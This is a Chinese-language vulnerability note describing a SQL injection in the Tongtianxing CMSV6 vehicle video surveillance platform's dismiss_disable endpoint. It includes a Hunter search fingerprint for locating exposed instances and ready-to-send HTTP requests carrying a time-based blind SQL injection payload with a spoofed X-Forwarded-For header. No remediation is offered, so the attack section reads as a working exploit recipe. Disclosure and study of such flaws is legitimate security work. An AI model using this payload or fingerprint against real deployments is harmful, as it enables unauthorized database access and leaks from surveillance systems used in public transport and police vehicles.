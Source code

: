# 通天星CMSV6车载视频监控平台 dismiss_disable存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台dismiss_disable存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/RD1frkQj3EIWkVmf/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-909326.png)

# 四、漏洞复现
```rust
GET /edu_security_officer/dismiss_disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717265859414-4b868741-d8fe-46ff-b4d9-c0df4e83e0b0.png](./img/RD1frkQj3EIWkVmf/1717265859414-4b868741-d8fe-46ff-b4d9-c0df4e83e0b0-924563.png)

```rust
GET /edu_security_officer/dismiss_disable;downloadLogger.action?ids= HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717265872402-6e02a4d2-5185-44c1-b57c-3a3446189c6c.png](./img/RD1frkQj3EIWkVmf/1717265872402-6e02a4d2-5185-44c1-b57c-3a3446189c6c-792294.png)



> 更新: 2024-12-28 13:05:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vrhper615hgdecv6>